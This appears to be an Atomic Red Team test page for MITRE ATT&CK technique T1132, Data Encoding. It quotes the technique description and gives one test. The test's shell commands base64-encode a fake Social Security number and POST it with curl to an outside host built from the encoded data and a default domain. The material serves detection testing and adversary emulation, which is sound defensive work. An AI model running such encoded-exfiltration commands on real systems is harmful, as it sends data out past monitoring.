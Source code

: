 # T1132 - Data Encoding
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1132)
<blockquote>Command and control (C2) information is encoded using a standard data encoding system. Use of data encoding may be to adhere to existing protocol specifications and includes use of ASCII, Unicode, Base64,  MIME, UTF-8, or other binary-to-text and character encoding systems. (Citation: Wikipedia Binary-to-text Encoding) (Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Base64 Encoded data.](#atomic-test-1---base64-encoded-data)


<br/>

## Atomic Test #1 - Base64 Encoded data.
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** macOS, Linux


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|


#### Attack Commands: Run with `sh`! 


```sh
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```






<br/>
